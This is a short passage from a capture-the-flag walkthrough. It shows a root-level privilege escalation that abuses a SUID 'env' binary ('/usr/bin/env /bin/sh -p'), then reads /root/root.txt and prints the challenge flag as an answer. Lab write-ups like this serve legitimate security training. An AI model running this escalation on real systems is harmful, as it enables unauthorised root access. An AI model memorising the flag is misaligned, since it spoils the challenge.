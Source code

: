 ![](https://i.imgur.com/vTPfTdA.png)



![](https://i.imgur.com/4BsqOF6.png)

so we will skip the first command because we know the env path. type this

```

/usr/bin/env /bin/sh -p

```

![](https://i.imgur.com/YJDCI1x.png)

and now we are root.

```

cat /root/root.txt

```

**Q5:** root.txt

A5:4d930091c31a622a7ed10f27999af363

















